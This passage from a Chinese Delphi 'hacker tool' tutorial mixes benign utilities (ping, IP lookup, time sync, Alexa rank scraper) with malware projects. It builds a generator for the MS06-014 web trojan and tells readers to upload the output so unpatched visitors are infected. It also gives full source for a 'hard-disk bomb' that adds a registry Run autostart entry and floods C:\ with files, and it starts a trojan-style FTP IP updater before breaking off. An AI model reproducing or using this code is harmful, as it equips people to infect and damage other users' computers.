有了思路后，我们来编程实现，可以利用 Delphi 的 WinExec 函数调用 CMD 来创建特殊目录，然后就可以建立一个秘密文件夹，别人无法使用和访问了。

### 3.1.2 程序编写

首先给出程序的界面，使用到了三个 Button 组件和一个 Edit 组件，放置好每个组件的位置，并修改完相关属性后，就可以编写代码了，如图 3.5。
图 3.5

这里的思路是，使用 WinExec 函数调用 CMD.EXE，然后使用其中的 MD 命令创建特殊文件名的文件夹，如果要想访问这个特殊的文件夹，也就是浏览文件夹内容的话，可以使用 CMD 下面的 START 命令；如果用户想删除这个特殊文件夹，可以使用 CMD 下的 RD 命令，程序全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Edit1: TEdit;
    Button1: TButton;
    Button2: TButton;
    Button3: TButton;
    Label1: TLabel;
    Label2: TLabel;
    Label3: TLabel;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure Button3Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);  // 创建文件夹
begin
  if Edit1.Text<>'' then
  begin
    WinExec(PChar('cmd.exe /c md '+Edit1.Text+'\.\'),SW_HIDE);  // 创建目录
    ShowMessage('目录创建成功！');
  end
  else
    ShowMessage('目录为空！');
end;

procedure TForm1.Button2Click(Sender: TObject);  // 浏览文件夹
begin
  if Edit1.Text<>'' then
    WinExec(PChar('cmd.exe /c start '+Edit1.Text+'\.\'),SW_HIDE)  // “cmd.exe /c start” 不能少，否则无法浏览
  else
    ShowMessage('目录为空！');
end;

procedure TForm1.Button3Click(Sender: TObject);  // 删除文件夹
begin
  if Edit1.Text<>'' then
  begin
    WinExec(PChar('cmd.exe /c rd '+Edit1.Text+'\.\'),SW_HIDE);  // “cmd.exe /c” 不能少，否则无法正确删除
    ShowMessage('目录删除成功！');
  end
  else
    ShowMessage('目录为空！');
end;

end.


```

### 3.1.3 程序运行

代码编写完毕后，就可以按 F9 键来运行程序了，在目录输入框中输入要创建的秘密文件夹，然后点击“创建目录”按钮，就可以创建一个特殊目录了，如图 3.6。

如果要访问这个特殊目录，可以在编写的程序中输入刚才创建的文件名称（不包括两个点符号），然后点击“浏览该目录”按钮，此时就会自动定位到该特殊目录。我们可以在该目录中创建和修改文件，把一些比较机密和隐私的文件存放到其中，这样别人就无法访问了，可以保护自己的数据安全，如图 3.7。如果其他用户尝试在 Windows 资源管理器中进行访问的话，就会弹出访问错误的对话框，如图 3.8。

那么我要如何删除这个特殊的文件夹呢？如果在 Windows 下使用系统的删除功能是无法删除的，如图 3.9。要实现对特殊目录的删除，可以在我们编写的程序中输入创建的特殊目录的文件名称（不包括两个点符号），然后点击“删除目录”按钮就行了。
图 3.6
图 3.7
图 3.8
图 3.9

## 3.2 编写一个网马生成器

在本节内容中，我们将学习如何使用 Memo 组件和 SaveDialog（保存对话框）组件。在 Memo 组件中有个重要的方法，就是 SaveToFile，通过这个方法，可以把 Memo 组件中的内容保存到磁盘文件中，本节就是通过这个方法来实现网马的生成。

### 3.2.1 原理分析

我们选用著名的 MS06014 网马进行演示，读者朋友们可以先下载这个网页木马的代码。大家可以看到，需要配置这个木马，主要是配置：下载的木马网络地址和本地保存的地址，如图 3.10。
图 3.10

### 3.2.2 程序编写

首先添加两个 Memo 组件用于保存网页木马的代码，然后再添加一个 SaveDialog 组件用于打开一个对话框，程序的界面如图 3.11 所示。为了在 Memo 组件中添加代码，需要点击 Memo 组件，然后来到对象监视器中，找到 Lines 属性，如图 3.12。
图 3.11

图 3.12

点击 Lines 属性后面的“…”按钮，在弹出的窗口中输入 MS06014 的前半段代码，如图 3.13。经过这些设置后，就可以编写代码了，全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Memo1: TMemo;
    Memo2: TMemo;
    Button1: TButton;
    Edit1: TEdit;
    Edit2: TEdit;
    Button2: TButton;
    Label1: TLabel;
    Label2: TLabel;
    SaveDialog1: TSaveDialog;
    Label3: TLabel;
    procedure Button2Click(Sender: TObject);
    procedure Button1Click(Sender: TObject);
    procedure FormCreate(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;


```
图 3.13

```pascal
implementation

procedure TForm1.Button2Click(Sender: TObject);
begin
  ShowMessage('Code by: 无敌小龙 QQ:5450913');
end;

procedure TForm1.Button1Click(Sender: TObject);
var
  a: TextFile;
  s, s2: string;
begin
  if SaveDialog1.Execute then
  begin
    AssignFile(a, SaveDialog1.FileName);
    Rewrite(a);
    s:=Trim(Memo1.Text)+Trim(Edit1.Text)+...;
    s2:=...+Trim(Edit2.Text)+Trim(Memo2.Text);

    Write(a, s);
    Writeln(a);
    Write(a, s2);

    CloseFile(a);
  end
  else
    ShowMessage('保存错误!');
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  Memo1.Visible:=False;
  Memo2.Visible:=False;
end;


```

### 3.2.3 程序运行

按 F9 运行程序，在程序界面中输入网页木马的地址和保存运行的硬盘路径，最后点击“生成”按钮，就可以生成一个 MS06014 网页木马了。我们把生成的网页木马文件上传到网站空间中，如果一个没有打上补丁的电脑访问了这个网页，就会中木马了，如图 3.14。
图 3.14

## 3.3 编写 QQ 信息查询器

学习完以上的知识后，我们就可以使用 WebBrowser 组件编写出很多实用的网络程序了，并且可以编写出属于自己的 IE 浏览器。

### 3.3.1 原理分析

WebBrowser 组件是 Delphi 中的一款浏览器接口软件，通过这款软件可以方便地编写出类似 IE 的浏览器。WebBrowser 组件有个非常有用的方法，就是 Navigate 方法，通过这个方法就可以访问指定的网页文件了，下面我们通过对一个 QQ 信息查询器的编写来介绍 WebBrowser 组件是如何使用的。

### 3.3.2 程序编写

要使用 WebBrowser 组件，就要先在窗口中添加这个组件，WebBrowser 组件是在 Internet 栏上的。然后我们再添加完其它的组件，并且调整好各个组件的大小和位置，最后程序的界面如图 3.15 所示。
图 3.15

其实，获取 QQ 的各项信息就是通过访问相关的网页，也就是通过访问不同的网页来实现对 QQ 不同信息的查询和访问的，最后的代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, OleCtrls, SHDocVw, StdCtrls;

type
  TForm1 = class(TForm)
    Edit1: TEdit;
    Button1: TButton;
    WebBrowser1: TWebBrowser;
    Button2: TButton;
    Label1: TLabel;
    Label2: TLabel;
    Button3: TButton;


```

### 3.3.3 程序运行

按 F9 运行程序，在 QQ 号码输入框中输入要查询的 QQ 号码，然后点击“是否在线”按钮，就可以看到一个图标了。如果是彩色图标表示对方在线，如果是灰色图标，就表示对方不在线，如图 3.16。点击“相册”按钮就可以查看对方的相册了，如图 3.17。点击“论坛资料”按钮，可以查看对方的论坛资料信息，如图 3.18。点击“QQ 空间”按钮，就可以查看对方的 QQ 空间了，如图 3.19。

## 3.4 编写 IP 地址获取器

通过本节内容的学习我们将学会 UdpSocket 有何作用，并且编写出一个能够查看本机 IP 地址的软件。

### 3.4.1 原理分析
图 3.16
图 3.17
图 3.18
图 3.19

UdpSocket 是 Delphi 提供给编程用户在 UDP 协议下进行网络编程的组件，我们来介绍一下如何使用这个组件获取本机的 IP 地址。之所以介绍这个组件的使用方法，是因为有很多远程控制软件都有显示自身 IP 地址的功能，介绍的这些基础知识对各位读者后面所进行的远程控制软件的编程会大有裨益。

UdpSocket 有个重要的方法“LocalHostAddr”，通过这个方法就能方便地得到本机的内网 IP 地址。同时，TUdpSocket 组件中还有两个重要的属性：LocalHostName 和 LocalHostAddr，分别存储了本地计算机的主机名和 IP 地址。

如果要在窗体标题栏中显示主机名和 IP 地址，可以使用如下的代码：

```pascal
self.Caption:=UdpSocket1.LocalHostName; // 获得计算机名称
self.Caption:=self.Caption+' '+UdpSocket1.LocalHostAddr; // 获得本地 IP 地址


```

### 3.4.2 程序编写

首先添加一个 UdpSocket 组件到窗体上，UdpSocket 默认是在 Internet 栏上的，添加完毕后，再添加一个 Label 标签控件，用来显示获取的本地 IP 地址信息，最后的程序界面如图 3.20 所示。

我们再来修改一下 Label 标签组件的属性，首先把 Label 组件拉动到一个比较长的长度，然后来到对象监视器中，可以修改它的 AutoSize 属性为假，这样 Label 组件就不会自动缩小了，如图 3.21。同时，为了在程序运行之前显示为“本地 IP 地址”提示信息，我们还要修改 Label 标签组件的 Caption 属性为“本地 IP 地址：”，如图 3.22。
图 3.20

图 3.21

图 3.22

现在，双击 Form1 窗口，就可以来到代码编辑窗口了，只要输入一句代码就可以在标签组件中显示本地主机 IP 地址了，如图 3.23。
图 3.23

全部的代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, Sockets, StdCtrls;

type
  TForm1 = class(TForm)
    UdpSocket1: TUdpSocket;
    Label1: TLabel;
    procedure FormCreate(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.FormCreate(Sender: TObject);
begin
  Label1.Caption:=UdpSocket1.LocalHostAddr;
end;

end.


我们使用一个循环来逐个监听端口，如果监听成功，说明端口没有被占用，也就是没有开放该端口；如果监听失败，也就是说该端口被其他程序占用了，就说明该端口是开放的，其中主要的程序代码如图 3.29 所示。

```

### 3.4.3 程序运行

按 F9 运行程序，可以看到在标签处显示出了本机的 IP 地址，如图 3.24。我们再打开“开始”－“运行”栏，如图 3.25，在弹出的“运行”栏中输入 CMD，也就是调用 CMD 命令提示符，如图 3.26，在命令提示符窗口中输入“IPCONFIG”命令，可以看到本机的 IP 地址为“169.254.78.111”，这和刚才使用程序获得的 IP 地址是一样的，如图 3.27。
## 3.5 编写一个端口扫描器

在这一节中，我们将学习如何使用 ServerSocket 这个 VCL 组件来进行编程。

### 3.5.1 原理分析

ServerSocket 组件主要用来编写服务器端的程序，利用这个特性，可以通过设置 ServerSocket 的 Port 属性来监听本地端口。如果监听成功，那么就说明本地该端口没有被占用；否则就说明该端口被占用，也就是说该端口是开放的，这也就是端口扫描器的原理。

### 3.5.2 程序编写

首先，要在窗口上添加 ServerSocket 组件，ServerSocket 组件是在 Internet 栏上的，然后还要添加一个 Button 按钮组件和一个 ListBox 列表组件，摆放好各个组件的位置，最后的程序界面如图 3.28 所示。
程序全部的代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, ScktComp, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    ListBox1: TListBox;
    ServerSocket1: TServerSocket;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  i: Integer;
begin
  ListBox1.Items.Clear;
  for i := 0 to 1024 do
  begin
    ServerSocket1.Close;                 // 关闭 SOCKET
    ServerSocket1.Port := i;             // 设置本地端口
    Application.ProcessMessages;         // 防止程序假死
    Form1.Caption := IntToStr(i);
    try
      ServerSocket1.Open;                // 对设置的端口进行监听
    except
      // 如果监听出错，也就是表示端口已经开放了
      ListBox1.Items.Add(IntToStr(i) + '端口被打开');
    end;
  end;
end;

end.
```

### 3.5.3 程序运行

这个程序不能通过按 F9 来运行，如果按 F9 运行程序，点击“开始扫描”按钮，就会弹出 10048 端口被占用的错误提示窗口，如图 3.30。要想测试和运行该程序，需要先把它生成 EXE 文件，然后再来运行，才能防止出错。我们首先找到工程菜单下的“选项”子菜单，如图 3.31，点击“选项”子菜单后，弹出了选项对话框，如图 3.32。找到“目录”标签页，点击“输出目录”后面的按钮，在弹出的“浏览文件夹”窗口中选择桌面，然后点击“确定”按钮保存设置，如图 3.33。

此时，就可以通过工程菜单下的“编译所有”(BUILD ALL PROJECTS)子菜单来生成 EXE 程序了，生成的程序就在桌面上，双击运行程序，点击“开始扫描”按钮，就会弹出 WINDOWS 防火墙的警告，点击其中的“解除阻止”按钮就行了，如图 3.34，程序的扫描结果如图 3.35 所示。

## 3.6 编写 PING 工具

在 CMD 命令提示符下有一个 PING 命令，可以实现向指定主机发送 ICMP 数据包，但是由于不是图形界面，使用起来难免会感觉到不方便，下面我们就来介绍如何使用 DELPHI 的一个 VCL 组件编写图形界面的 PING 工具。

### 3.6.1 原理分析

在 CMD 下输入命令 `ping www.baidu.com` 可以对一个主机或者一个域名进行 ICMP 包连接测试，通过 PING，我们可以得到 BAIDU.COM 的 IP 地址为“220.181.6.6”，如图 3.36。在 DELPHI 中能够实现 PING 的组件就是 IDICMPCLIENT，它有个 PING 方法可以实现对主机的 PING 操作，并且有个 REPLY 事件，在此事件中可以得到返回的状态。

### 3.6.2 程序编写

首先，添加一个 IDICMPCLIENT 组件，此组件在 DELPHI6 和 DELPHI7 中都有，在 INDY CLIENT 栏中。添加完各个组件后，再修改好位置和大小，最后的程序界面如图 3.37 所示。为了更准确地模仿 CMD 下的 PING 程序，我修改了 MEMO1 组件的属性为黑色，也就是 clWindowText，如图 3.38，并且修改了 MEMO 的文字颜色为白色，也就是 clWindow，如图 3.39。

程序全部的代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, IdBaseComponent, IdComponent, IdRawBase, IdRawClient,
  IdIcmpClient;

type
  TForm1 = class(TForm)
    IdIcmpClient1: TIdIcmpClient;
    Memo1: TMemo;
    Button1: TButton;
    Edit1: TEdit;
    Button2: TButton;
    Label1: TLabel;
    Label2: TLabel;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure IdIcmpClient1Reply(ASender: TComponent;
      const AReplyStatus: TReplyStatus);
    procedure FormCreate(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  if Edit1.Text = '' then Exit;  // 如果没有输入网站，就退出

  IdIcmpClient1.Host := Edit1.Text;   // 设置主机 IP 或者域名
  IdIcmpClient1.Ping;                 // 开始 PING 操作
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  IdIcmpClient1.Free;   // 关闭 PING 操作
end;

procedure TForm1.IdIcmpClient1Reply(ASender: TComponent;
  const AReplyStatus: TReplyStatus);
begin
  Memo1.Lines.Add('==============================================');
  Memo1.Lines.Add('IP地址：' + AReplyStatus.FromIpAddress + '    接收字节：' +
    IntToStr(AReplyStatus.BytesReceived) + '    用时：' +
    IntToStr(AReplyStatus.MsRoundTripTime) + '    TTL：' +
    IntToStr(AReplyStatus.TimeToLive));
  Memo1.Lines.Add('==============================================');
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  Memo1.Clear;
end;

end.
```

### 3.6.3 程序运行

按 F9 运行程序，在“主机地址”输入框中输入 www.baidu.com，然后点击“开始”按钮，就可以看到 PING 的结果了，使用非常方便而且也很逼真，如图 3.40。

## 3.7 编写网络时间同步器

有时系统的时间和网络时间不同步，此时如果能有一个小程序可以实现同步本机时间为网络时间的话就好了。

下面，我们就来编写这样的一个小工具。

### 3.7.1 原理分析

是否希望自己的系统时间和世界同步呢，下面的程序就通过 IDTIME 控件来实现一个网络时间同步器的编写。首先设置 IDTIME 组件的 HOST 属性为一台时间服务器，然后可以通过 DateTime 属性得到网络时间，最后可以通过 SyncTime 方法来同步系统时间为网络时间。

### 3.7.2 程序编写

首先在窗体上添加两个按钮，一个按钮用来显示网络时间，另一个用来校正本地系统时间，然后再添加一个标签组件，用来显示网络时间，最后再添加一个 IDTIME 组件，如图 3.41。我们要修改一下 LABEL 标签组件的 AutoSize 属性为 False，这样就可以保证 LABEL 标签组件可以正常显示网络时间了，如图 3.42。程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, IdBaseComponent, IdComponent, IdTCPConnection, IdTCPClient,
  IdTime, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    IdTime1: TIdTime;
    Label1: TLabel;
    Button2: TButton;
    Label2: TLabel;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  IdTime1.Host := 'clock.psu.edu'; // 设置服务器
  Label1.Caption := DateTimeToStr(IdTime1.DateTime); // 获得时间
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  IdTime1.SyncTime;    // 同步本地时间
end;

end.
```

### 3.7.3 程序运行

首先来看看系统本身的时间，如图 3.43，双击任务栏的时间，就会弹出时间属性窗口，可以看到是 7 月 28 号，如图 3.44。为了演示我们的程序能够同步网络时间，我们故意把时间修改为 29 号，如图 3.45。运行刚才编写的网络时间同步器，点击“获得时间”按钮，就可以得到当前的网络时间，然后再点击“同步时间”按钮，就可以修正系统的时间为正常的网络时间了，如图 3.46。

## 3.8 硬盘炸弹跟我做

相信各位读者都听说过病毒吧，本节我就教大家如何编写一个简单的病毒程序。

### 3.8.1 原理分析

DELPHI 有强大的文件操作函数，可以很好地支持 API 来操作文件，同时在 DELPHI 中还有一个非常好的组件，那就是 MEMO 组件，它可以使用 LoadFromFile 来把一个文件载入到 MEMO 中进行显示，同时还可以使用 SaveToFile 方法把 MEMO 中的内容保存到系统磁盘中，本例就利用到了 MEMO 组件的 SaveToFile 方法来实现一个硬盘炸弹的编写。

### 3.8.2 程序编写

程序界面很简单，使用到了一个 MEMO 组件，如图 3.47。同时，为了显示写入磁盘的速度，还使用到了一个 PROGRESSBAR 组件，如图 3.48。首先设置 MEMO 组件中的内容，点击 Lines 属性后面的“...”按钮，如图 3.49，在弹出的对话框中写入你想写入到磁盘的文件信息，如图 3.50，然后点击“OK”按钮保留上面的设置。本例所介绍的木马为了实现自启动，还使用到了注册表库，所以我们还要在 uses 语句后添加 Registry 库，如图 3.51。

程序的流程为：首先在窗体运行时先写注册表的启动项目，然后使用一个 for 循环向系统盘中写入大量的数据，同时使用进度条来显示写入的进度数据，程序全部的代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, Registry, StdCtrls, ComCtrls; // Registry

type
  TForm1 = class(TForm)
    Memo1: TMemo;
    ProgressBar1: TProgressBar;
    procedure FormCreate(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

// 写注册表 RUN 实现自启动
procedure TForm1.FormCreate(Sender: TObject);
var
  reg: TRegistry;
  i: Integer;
begin
  // 实现自启动
  try
    reg := TRegistry.Create;
    reg.RootKey := HKEY_LOCAL_MACHINE;
    reg.OpenKey('\SOFTWARE\Microsoft\Windows\CurrentVersion\Run', True);
    reg.WriteString('run_myself', Application.ExeName);
    reg.CloseKey;
  finally
    reg.Free;
  end;

  //______________________________实现硬盘炸弹效果

  for i := 1 to 100 do
  begin
    Memo1.Lines.SaveToFile('c:\' + IntToStr(i) + '_xiaolong.txt');

    ProgressBar1.Min := 1;
    ProgressBar1.Max := 100;
    ProgressBar1.Position := i;
  end;

  //______________________________
end;

end.
```

### 3.8.3 程序运行

我们来看看注册表的启动项，可以看到只有三个启动项目，如图 3.52，按 F9 运行上面编写的程序，可以看到程序运行的效果，如图 3.53。现在，再次来到注册表中，可以看到在注册表中被写入了启动项目，如图 3.54，最后再来到系统磁盘目录下，可以看到被写入了大量的垃圾文件，如图 3.55，打开其中的一个文件，可以看到里面的内容就是我们在 MEMO 组件中所设置的内容，如图 3.56。这样一个具备自启动的硬盘炸弹就编写完毕了，读者朋友们还可以在此基础上添加更多的功能，比如让窗口隐藏运行等等。

## 3.9 花的嫁衣——给你的软件加上 OEM 界面

许多软件都有非常漂亮的启动页面，本章的最后，我们就来演示如何使用 WEBBROWSER 组件实现一个漂亮的 OEM 界面。

### 3.9.1 程序编写

首先在窗体上添加一个 WEBBROWSER 组件，然后再添加一个按钮，如图 3.57。本例所要实现的效果就是通过 WEBBROWSER 组件实现一些 OEM 信息的显示，原理非常简单，就是调用了 WEBBROWSER 组件的 Navigate 属性，通过浏览一段 HTML 代码就可以实现 OEM 界面了。

有一点需要大家特别注意，就是在浏览前，要浏览“about:”这个空白页面，否则程序会运行失败的，最终的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, OleCtrls, SHDocVw;

type
  TForm1 = class(TForm)
    WebBrowser1: TWebBrowser;
    Button1: TButton;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  WebBrowser1.Navigate('about:<body><p>这是吴无敌小龙的测试</p><a href=http://baidu.com/>www.baidu.com</a></body>');
end;

end.


```
### 3.9.2 程序运行

按 F9 运行程序，点击“显示 OEM 界面”按钮，可以看到程序显示出调用 Navigate 方法浏览的 HTML 页面，读者朋友们只要添加一些酷炫的 HTML 代码，就可以实现非常好看的 HTML 页面显示了，如图 3.58。

# 第四章 初级黑客工具编写

有了前几章对 DELPHI 基础知识和语法的介绍，以及对 VCL 组件的使用介绍，现在我们就可以编写一些稍微复杂的黑客程序了，通过对组件的整合和对程序代码的深入，可以尝试着编写一些具有丰富功能的小工具。

## 4.1 QQ 强制聊天器

小菜们都使用过 QQ 强制聊天器吧，现在我就带领大家也编写一个 QQ 强制聊天器。

### 4.1.1 程序编写

QQ 强制聊天其实是利用了 QQ 的一个临时聊天功能，在该功能下，即使不用添加对方为 QQ 好友也可以与对方进行聊天。我们下面的这个程序就是根据这个原理进行编写的，程序使用到了一个 WEBBROWSER 组件，这个组件是在 INTERNET 页面，同时还用到了一个编辑框组件和一个按钮组件，如图 4.1。
图 4.1

程序通过 WEBBROWSER 组件来浏览访问“tencent://message/?uin=” + QQ 号码的这个地址，通过访问这个地址就可以弹出 QQ 临时聊天窗口来实现强制聊天的目的了，程序代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, OleCtrls, SHDocVw;

type
  TForm1 = class(TForm)
    Button1: TButton;
    WebBrowser1: TWebBrowser;
    Edit1: TEdit;
    Label1: TLabel;
    Label2: TLabel;
    procedure Button1Click(Sender: TObject);
private
  { Private declarations }
public
  { Public declarations }
end;

var
  Form1: TForm1;

implementation

{$R *.dfm}
```

// 上面的代码为程序自动生成，下面是大家需要编写的代码

```delphi
procedure TForm1.Button1Click(Sender: TObject);
begin
  try    // 使用 TRY 语句防止程序出错
    WebBrowser1.Navigate('tencent://message/?uin=' + Edit1.Text);    // 使用浏览器 VCL 访问 TENCENT 协议
  except    // EXCEPT 语句后编写程序出错时的处理方法，这里空着不写即可
  end;    // TRY 语句结束
end;

end.


```

其中最核心的代码只有一句，其它的代码都是 DELPHI 编译程序自动生成的，如图 4.2。
### 4.1.2 程序运行

在编写完程序后，就可以运行程序来测试了，首先在 QQ 号码输入框中输入对方的 QQ 号码，然后点击“开始”按钮，程序就会自动弹出一个聊天对话框，此时即使对方没有添加你为好友，也可以进行聊天了，如图 4.3。

## 4.2 ALEXA 排名查询器

### 4.2.1 原理分析

要实现域名的 ALEXA 排名查询，就要使用到一些查询网站，我推荐使用 WWW.123CHA.COM 来查询 ALEXA 排名信息，首先在“查询网址”栏输入想要查询的网站地址，然后点击“查询”按钮，如图 4.4。就会自动来到 http://www.123cha.com/alexa/baidu.com 这个页面，并且显示查询出的 ALEXA 排名信息，我所查询的 www.baidu.com 的 ALEXA 排名为 12，如图 4.5。

点击鼠标右键，在快捷菜单中找到“查看源文件”，在弹出的记事本程序中就显示了当前页面的 HTML 信息，在里面可以看到 ALEXA 排名的位置，如图 4.6。
其中，核心的 HTML 代码如下：

```html
<td>网站简介:</td>
<td colspan=7 title="The leading Chinese language search engine, provides ">The leading Chinese language search engine, provides </td>
</tr>
<tr bgColor=#f6f6f6>
<td>综合排名:</td><td><strong>12</strong></td>
<td>下期排名:</td><td>12</td>
<td>所属国家:</td><td>zh-CN</td>
<td>网站编码:</td><td>不详</td>
</tr>
<tr bgColor=#ffffff>
<td>访问速度:</td><td>1062Ms/82 分</td>
```

在两个关键字“综合排名:</td><td><strong>”和“</strong></td>”之间的就是 ALEXA 排名的信息，了解了这些，则编程的思路就出现了。首先要获取页面的 HTML 代码，然后找到两个关键字之间的数据，截取出来，也就是 ALEXA 排名的信息。获取数据的方法是先使用 NMHTTP.Get 方法，然后在 NMHTTP.Body 属性中得到 HTML 返回页面，通过 Pos 函数得到关键字的位置，然后再使用 Copy 函数截取出指定的数据信息。

### 4.2.2 程序编写

程序使用到了一个 NMHTTP 组件，使用这个组件可以获取指定页面的 HTML 代码，还使用到了一个编辑框组件和一个按钮组件，程序的界面如图 4.7 所示。

摆放好各个组件的位置后，就可以编写程序代码了，程序完整代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, Psock, NMHttp;

type
  TForm1 = class(TForm)
    NMHTTP1: TNMHTTP;
    Button1: TButton;
    Memo1: TMemo;
    Edit1: TEdit;
    Label1: TLabel;
    Label2: TLabel;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}


```
图 4.7

```pascal
////////////下面的代码才是大家需要编写的，上面的代码程序会自动生成////////////

procedure TForm1.Button1Click(Sender: TObject);   // 按钮的单击事件
var
  ret, ret2: string;   // 定义两个字符串型变量
  i1, i2: integer;     // 定义两个整型变量
  s: string;
begin
  if Length(Edit1.Text) > 0 then   // 如果输入网站
  begin
    Memo1.Clear;
    // http://www.123cha.com/alexa/baidu.com/
    NMHTTP1.Get('http://www.123cha.com/alexa/' + Edit1.Text + '/');   // 调用 GET 方法获得数据
    Memo1.Text := NMHTTP1.Body;   // 显示 HTML 代码
    i1 := Pos('综合排名:</td><td><strong>', Memo1.Text);   // 得到第一处特征码的位置
    s := Memo1.Text;
    Delete(s, 1, i1 - 1);
    i2 := Pos('</strong></td>', s);  // 第二处特征码 </strong></td>
    ret2 := Copy(s, Length('综合排名:</td><td><strong>') + 1, i2 - Length('综合排名:</td><td><strong>') - 1);
    ShowMessage('查询的网站：' + Edit1.Text + ' 的排名为：' + ret2);
  end
  else  // 如果没有载入网站
  begin
    ShowMessage('请输入要查询的网站！');
    Exit; // 退出程序
  end;
end;

end;


```

其中，最核心的代码如图 4.8 所示，该程序实现了获取网页以及截取指定数据的目的。

### 4.2.3 程序运行

编写完程序代码后，就可以进行测试了，在网站输入框中输入想要查询的网站地址，然后点击“查询”按钮，可以看到马上弹出了一个对话框，显示 www.baidu.com 的 ALEXA 排名为 12，如图 4.9。
该程序还有个不完美的地方，就是程序显示的对话框标题为“PROJECT1”，给大家介绍一下如何修改这个对话框标题，首先在“Project”下选择“选项（Options）”菜单，如图 4.10。
在打开的 Options 菜单中选择“Application”，修改其中的 Title 属性，也就是标题属性，就可以把弹出的对话框标题设置成想要的标题了，如果不设置的话，则默认为“PROJECT1”，这里我设置成了“ALEXA 排名查询工具”。同时，为了程序封装和更严谨，我们选择将 MEMO 组件不可视，如图 4.12。

再次运行程序，这回可以看到程序变得好看了很多，其界面如图 4.13 所示。利用编写好的这个小工具，我们还可以查询其它网站的排名，比如我们查询 www.google.com 网站的 ALEXA 排名，就可以得到该网站的全球 ALEXA 排名为 2，如图 4.14。
## 4.3 IP 更新器（FTP）

很多木马程序都具有 IP 更新功能，本小节我们就介绍一种实现的方法，来实现通过 FTP 方式更新 IP 地址。

### 4.3.1 原理分析

在著名的远程控制软件 PcShare 中，点击“刷新 IP”按钮，就会弹出一个 FTP 刷新 IP 地址的窗口，在这儿可以实现把本机的 IP 地址更新到一个网络文件中，图中更新到的是 IP.RAR 文件，如图 4.15。下面，我们就来模拟这个功能，编写出一个属于自己的 IP 更新器。

### 4.3.2 程序编写

程序使用到了一个 NMFTP 组件，这是 DELPHI 6 提供给编程人员的一个 FTP 协议下的组件，通过这个组件可以连接到 FTP 服务器，进行 Upload 和 Delete 等操作，摆放好各个组件的位置后，程序的界面如图 4.16 所示。
因为程序要使用到一个自定义的函数 LocalIP 获取本机的 API 地址，所以要在引用文件中添加 WINSOCK 库文件，如图 4.17。

程序使用到了 NMFTP 来连接远程 FTP 服务器，首先指定 Host 和 Port，也就是 FTP 服务器的 IP 地址和开放的端口（默认是 21 端口），然后设置 UserID 属性和 Password 属性，也就是登录 FTP 服务器的帐户和密码，最后调用 Connect 方法，就可以连接到远程 FTP 主机了。在连接成功后，就可以使用 NMFTP1 的 Upload 方法，把本地的一个文件传送到远程主机上了，程序代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, Psock, NMFTP, WinSock; // 记得要添加 WINSOCK 库

type
  TForm1 = class(TForm)
    NMFTP1: TNMFTP;
    Edit1: TEdit;
    Button1: TButton;
    Edit2: TEdit;
    Label1: TLabel;
    Label2: TLabel;
    Edit3: TEdit;
    Edit4: TEdit;
    Label3: TLabel;
    Label4: TLabel;
    Button2: TButton;
    Edit5: TEdit;
